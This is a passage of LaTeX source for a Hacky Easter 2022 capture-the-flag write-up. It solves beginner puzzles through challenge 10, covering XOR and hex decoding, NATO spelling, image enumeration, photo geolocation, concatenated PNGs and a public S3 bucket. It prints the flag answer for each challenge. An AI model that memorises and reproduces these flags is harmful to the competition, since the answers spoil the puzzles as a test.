% arara: lualatex: { shell: yes }
\documentclass[oneside,openany,english,a4paper,nols]{tufte-book}
\usepackage[english]{babel}
\usepackage{titletoc}
\usepackage{graphicx}
\usepackage{minted}
\usepackage{listings}
\usepackage{fancyvrb}
\usepackage{fvextra}
\usepackage{enumitem}
\usepackage{microtype}
\usepackage{pmboxdraw}

\DisableLigatures{encoding = *, family = * }
\setlist{nolistsep}
\usepackage{fontspec}
\newfontfamily{\NotoEmoji} {NotoColorEmoji.ttf}[Renderer=Harfbuzz]
\newfontfamily{\NotoSymbol} {NotoSansSymbols-Regular.ttf}[Renderer=Harfbuzz]
\newfontfamily{\NotoSymbolTwo} {NotoSansSymbols2-Regular.ttf}%[Renderer=Harfbuzz]
\newfontfamily{\NotoMono} {NotoSansMono-Regular.ttf}[Renderer=Harfbuzz]
\newfontfamily{\NotoJapan} {NotoSansJP-Regular.otf}[Renderer=Harfbuzz]
\newfontfamily{\NotoKorea} {NotoSansKR-Regular.otf}[Renderer=Harfbuzz]
\newfontfamily{\NotoThai} {NotoSansThai-Regular.ttf}[Renderer=Harfbuzz]
%\setmainfont{Linux Libertine O}% or Minion Pro or what have you
%\setmainfont{Noto Sans}% or Minion Pro or what have you
\setmonofont{Noto Sans Mono}
\setlength\parindent{0pt}
\parindent=0pt
%\special{papersize=210mm,297mm}%
% Set up the spacing using fontspec features
\renewcommand\allcapsspacing[1]{{\addfontfeature{LetterSpace=15}#1}}
\renewcommand\smallcapsspacing[1]{{\addfontfeature{LetterSpace=10}#1}}

% % add numbers to chapters, sections, subsections
% \setcounter{secnumdepth}{-1}

% % chapter format
% \titleformat{\chapter}%
%   {\huge\rmfamily\itshape\color{red}}% format applied to label+text
%   {\llap{\colorbox{red}{\parbox{1.5cm}{\hfill\itshape\huge\color{white}\thechapter}}}}% label
%   {2pt}% horizontal separation between label and title body
%   {}% before the title body
%   []% after the title body

% % section format
% \titleformat{\section}%
%   {\normalfont\Large\itshape\color{orange}}% format applied to label+text
%   {\llap{\colorbox{orange}{\parbox{1.5cm}{\hfill\color{white}\thesection}}}}% label
%   {1em}% horizontal separation between label and title body
%   {}% before the title body
%   []% after the title body

% % subsection format
% \titleformat{\subsection}%
%   {\normalfont\large\itshape\color{blue}}% format applied to label+text
%   {\llap{\colorbox{blue}{\parbox{1.5cm}{\hfill\color{white}\thesubsection}}}}% label
%   {1em}% horizontal separation between label and title body
%   {}% before the title body
%   []% after the title body

% chapter format in toc
\titlecontents{chapter}%
    [4em]% distance from left margin
    {\Large\rmfamily\itshape}% above (global formatting of entry)
    {\contentslabel{2em}\textit}% before w/ label (label = ``Chapter 1'')
    {\hspace{0em}\textit}% before w/o label
    {\qquad\thecontentspage}% filler and page (leaders and page num)
    [\vspace*{0.5\baselineskip}]% after

  
  
\hypersetup{
 colorlinks=true,
urlcolor=blue,
linkcolor=black}

%%%% Kevin Godny's code for title page and contents from https://groups.google.com/forum/#!topic/tufte-latex/ujdzrktC1BQ
\makeatletter
\renewcommand{\maketitlepage}{%
\begingroup%
\setlength{\parindent}{0pt}

{\fontsize{24}{24}\selectfont\textit{\@author}\par}

\vspace{1.75in}{\fontsize{36}{54}\selectfont\@title\par}

 % 
\includegraphics[width=1.2\linewidth]{images/200.png} \\[2cm]
  
\vspace{0.5in}{\fontsize{14}{14}\selectfont\textsf{\smallcaps{\@date}}\par}

\vfill{\fontsize{14}{14}\selectfont\textit{\@publisher}\par}

\thispagestyle{empty}
\endgroup
}

\setcounter{tocdepth}{0}% exclude \subsection in ToC

%\titlecontents{chapter}[1cm]{}
%{\normalfont\fillright\large}{}
%{\contentspage}{\contentspage}
%{}

\title{Hacky Easter 2022 write-up}
\author{brp64}
\date{2022-04-30}



\begin{document}

\maketitlepage

\tableofcontents

\newpage  

% !TeX root = ../solution.tex

\hypertarget{he22.teaser}{%
\chapter{Teaser Challenge}\label{hv22.teaser}}

\begin{figure}
	
\includegraphics[width=100mm]{00teaser/banner.jpg}
\end{figure}

\begin{center}
CraCC this, you HAXXOR!

\verb+a4a9fefcfefeb7b8fff8bfa9bee1a8fca2ffedb1+
\end{center}

\section{Solution}\label{he22.01-solution}

HAXXOR $\rightarrow$ XOR encoding

\noindent CraCC hints at 0xCC as the key to XOR with

\begin{minted}{python}
msg = 'a4a9fefcfefeb7b8fff8bfa9bee1a8fca2ffedb1'
res = ''
for i in range(len(msg)//2):
    s = int(msg[2*i:2*i+2],16)
    c = s ^ 0xcc
    res += chr(c)
    print(f'{s} -> {c} %s'%chr(c)) 
print(res)
\end{minted}

\noindent \verb+he2022{t34ser-d0n3!}+.


% !TeX root = ../solution.tex

\hypertarget{he22.01}{%
\chapter{[HE22.01] Welcome Flag}\label{hv21.01}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level1/challenge1.jpg}
\end{marginfigure}
\section{Intro}

Welcome to Hacky Easter 2022!

Open the file and catch your first flag!

\subsection{{\NotoEmoji 🚩} Flag}
\noindent format: \verb+he2022{real_flag_here}+

\section{Solution}\label{he22.01-solution}

Open the provided file \verb+welcome.txt+, read the instruction and find the
flag on the last line.

So the flag is \verb+he2022{welcome_to_hacky_easter_2022}+.


% !TeX root = ../solution.tex

\hypertarget{he22.02}{%
\chapter{[HE22.02] Sp4c3 Inv4d3r5!}\label{he22.02}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level2/challenge2.jpg}
\end{marginfigure}
\section{Intro}
My favourite game in the 80s was Space Invaders!

\subsection{{\NotoEmoji 🚩} Flag}
\begin{itemize}
	\item format: \verb+he2022{real_fl4g_here!}+
	\item no spaces
\end{itemize}

\section{Solution}\label{hv21.02-solution}

Select the text in the pdf file and paste it into a text editor to get
\begin{verbatim}he20
22{I nv4d 3rs_
fr0m _sp4 c3!}
\end{verbatim}

So the flag is \verb+he2022{Inv4d3rs_fr0m_sp4c3!}+.


% !TeX root = ../solution.tex

\hypertarget{he22.03}{%
\chapter{[HE22.03] Glitch}\label{he22.03}}
\begin{marginfigure}
	
\includegraphics[width=49mm]{level2/challenge3.jpg}
\end{marginfigure}
\subsection{Intro}
I got a flag, but it's glitched somehow.\\
\noindent\texttt{\}ɥɔʇᴉ{\NotoJapan し}ƃ\_ǝ{\NotoJapan し}ʇʇᴉ{\NotoJapan し}\_ɐ\_ʇ{\NotoJapan 己几}ɾ\{ {\NotoKorea ᄅᄅ0}{\NotoKorea ᄅ}ǝɥ}


\section{Solution}\label{hv21.03-solution}

Read it upside down and reverse to get
\verb+he2022{just_a_little_glitch}+.

% !TeX root = ../solution.tex

\hypertarget{he22.04}{%
\chapter{[HE22.04] I Key, You Key, ASCII}\label{he22.04}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level2/challenge4.jpg}
\end{marginfigure}
\subsection{Intro}

Look what I was drawing in my text editor!

\begin{verbatim}
.. .. .. 68 65 32 30 .. .. ..  
.. .. 32 ██ ██ ██ ██ 32 .. ..  
.. 7b ██ ██ ██ ██ ██ ██ 74 ..  
.. 68 ██ ██ ██ ██ ██ ██ 31 ..  
73 ██ ██ ██ ██ ██ ██ ██ ██ 5f  
30 ██ ██ ██ ██ ██ ██ ██ ██ 6e  
33 ██ ██ ██ ██ ██ ██ ██ ██ 5f  
31 ██ ██ ██ ██ ██ ██ ██ ██ 73  
5f ██ ██ ██ ██ ██ ██ ██ ██ 72  
33 ██ ██ ██ ██ ██ ██ ██ ██ 33  
33 ██ ██ ██ ██ ██ ██ ██ ██ 33  
.. 6c ██ ██ ██ ██ ██ ██ 79 ..  
.. 5f ██ ██ ██ ██ ██ ██ 73 ..  
.. .. 31 ██ ██ ██ ██ 6d .. ..  
.. .. .. 70 6c 33 7d .. .. ..  
\end{verbatim}
  

\section{Solution}\label{hv21.04-solution}

Convert the hex numbers to the respective ASCII character:

\noindent\texttt{he2022\{th1s\_0n3\_1s\_r3333ly\_s1mpl3\}}


% !TeX root = ../solution.tex

\hypertarget{he22.05}{%
\chapter{[HE22.05] Alpha Bravo Charlie}\label{he22.05}}


\begin{marginfigure}
	
\includegraphics[width=49mm]{level2/challenge5.jpg}
\end{marginfigure}
\section{Intro}
I received a strange message on my walkie-talkie today:

\noindent
\texttt{%
hotel echo two zero two two \{papa hotel oscar november echo tango india charlie \}}

\noindent {\NotoEmoji 🚩} Flag
\begin{itemize}
	\item    lowercase
	\item    no spaces
\end{itemize} 

\section{Solution}\label{hv21.05-solution}

Convert from NATO alphabet code to flag \verb+he2022{phonetic}+


% !TeX root = ../solution.tex

\hypertarget{he22.06}{%
\chapter{[HE22.06] Fibonacci Rabbits}\label{he22.06}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level3/challenge6.jpg}
\end{marginfigure}
\subsection{Intro}
Everyone loves rabbits!

\noindent\url{http://46.101.107.117:2201}

\noindent
Note: The service is restarted every hour at x:00.
  

\section{Solution}\label{hv21.06-solution}

Looking at the source code of the page, we see a list of images to be
displayed:

\noindent\begin{fullwidth}
{\footnotesize\begin{verbatim}
<div><img src="images/rabbit-17711.jpg" /><a href="#">Petal</a></div>
<div><img src="images/rabbit-75025.jpg" /><a href="#">Harley</a></div>
<div><img src="images/rabbit-34.jpg" /><a href="#">Rosie</a></div>
<div><img src="images/rabbit-987.jpg" /><a href="#">Petunia</a></div>
<div><img src="images/rabbit-8.jpg" /><a href="#">Mortimer</a></div>
<div><img src="images/rabbit-1.jpg" /><a href="#">Henry</a></div>
<div><img src="images/rabbit-144.jpg" /><a href="#">Miffy</a></div>
<div><img src="images/rabbit-2584.jpg" /><a href="#">E.B.</a></div>
<div><img src="images/rabbit-89.jpg" /><a href="#">Baxter</a></div>
<div><img src="images/rabbit-55.jpg" /><a href="#">Archie</a></div>
<div><img src="images/rabbit-5.jpg" /><a href="#">Murphy</a></div>
<div><img src="images/rabbit-317811.jpg" /><a href="#">Doc</a></div>
<div><img src="images/rabbit-2.jpg" /><a href="#">Hopper</a></div>
<div><img src="images/rabbit-6765.jpg" /><a href="#">Fluffy</a></div>
<div><img src="images/rabbit-46368.jpg" /><a href="#">Daffodil</a></div>
<div><img src="images/rabbit-28657.jpg" /><a href="#">Buttons</a></div>
<div><img src="images/rabbit-233.jpg" /><a href="#">Freddie</a></div>
<div><img src="images/rabbit-1597.jpg" /><a href="#">Roger</a></div>
<div><img src="images/rabbit-514229.jpg" /><a href="#">Bucky</a></div>
<div><img src="images/rabbit-4181.jpg" /><a href="#">Oliver</a></div>
<div><img src="images/rabbit-13.jpg" /><a href="#">Olive</a></div>
<div><img src="images/rabbit-3.jpg" /><a href="#">Bugs</a></div>
<div><img src="images/rabbit-377.jpg" /><a href="#">Flower</a></div>
<div><img src="images/rabbit-10946.jpg" /><a href="#">Chester</a></div>
<div><img src="images/rabbit-610.jpg" /><a href="#">Bubbles</a></div>
<div><img src="images/rabbit-121393.jpg" /><a href="#">Coco</a></div>
<div><img src="images/rabbit-21.jpg" /><a href="#">Clover</a></div>
\end{verbatim}
}
\end{fullwidth}

\noindent
The file names have an numbering that follows the Fibonacci series, so ordering
them by the number shows that the file \verb+rabbit-196418.jpg+ is missing.
Have a look at it\\
\noindent\verb+he2022{th1z_41nT_4_r4bB1T!}+

\begin{marginfigure}
	
\includegraphics[width=50mm]{level3/rabbit-196418.jpg}
\end{marginfigure}




% !TeX root = ../solution.tex

\hypertarget{he22.07}{%
\chapter{[HE22.07] Knäck låset}\label{he22.07}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level3/challenge7.jpg}
\end{marginfigure}
\subsection{Intro}
Knäck the cØde!

\begin{tabular}{lccc}
	koda  & {\NotoEmoji ✅} &{\NotoEmoji 🔀}& {\NotoEmoji ❌} \\  
2-9-7  &1  &0  &2    \\
2-3-0  &0  &1  &2    \\
7-8-2  &0  &2  &1    \\
5-1-9  &0  &0 & 3    \\
5-9-8  &0  &1 & 2    \\
\end{tabular}

\noindent{\NotoSymbol ⚑} format: \verb+he2022{999}+

\section{Solution}\label{hv21.07-solution}

Solve the mastermind problem \verb+he2022{807}+


% !TeX root = ../solution.tex

\hypertarget{he22.08}{%
\chapter{[HE22.08] City Trip}\label{he22.08}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level3/challenge8.jpg}
\end{marginfigure}
\section{Intro}
I made a nice city trip. Find out where I was!

\subsection{{\NotoEmoji 🚩} Flag}
\begin{itemize}
\item    street's name in lowercase and without spaces
\item    district or city name is not enough, we need the street
\item    example: Main Rd -> he2022{mainrd}
\end{itemize}

File: \verb+citytrip.jpg+
\begin{marginfigure}

\includegraphics[width=50mm]{level3/citytrip.jpg}
\end{marginfigure}
\section{Solution}\label{hv21.08-solution}

Go to Google image search and find references to the five points area in Manhattan.  The tall building is Confucius Plaza and the picture was taken from Bayard St.

The flag is \verb+he2022{bayardst}+


% !TeX root = ../solution.tex

\hypertarget{he22.09}{%
\chapter{[HE22.09] The Unicorn}\label{he22.09}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level3/challenge9.jpg}
\end{marginfigure}
\subsection{Intro}
Ain't no CTF without a unicorn!

File: \verb+unicorn.png+
\begin{marginfigure}

\includegraphics[width=50mm]{level3/unicorn.png}
\end{marginfigure}
\section{Solution}\label{hv21.09-solution}

Looking at the PNG file, it turns out that it contains multiple PNG files
concatenated.  The fourth file contains an egg with the flag is
\verb+he2022{1_c_un1c0rns_3v3rywh3r3!}+

\begin{marginfigure}
	
\includegraphics[width=50mm]{level3/unicorn4.png}
\end{marginfigure}



% !TeX root = ../solution.tex

\hypertarget{he22.10}{%
\chapter{[HE22.10] Bucket Egg}\label{he22.10}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level4/challenge10.jpg}
\end{marginfigure}
\subsection{Intro}
My Irish friend told me about his new web site. He told me it was in a bucket
named egg-in-a-bucket. No clue what that is...

\section{Solution}\label{hv21.10-solution}

The description hints at an AWS bucket named \verb+egg-in-a-bucket+ located in
Ireland.  It can be reached at
\url{https://egg-in-a-bucket.s3.eu-west-1.amazonaws.com/index.html} and shows a
nice picture with the flag \verb+he2022{th1s_3gg_1s_1n_4_buck3t}+.

\begin{marginfigure}
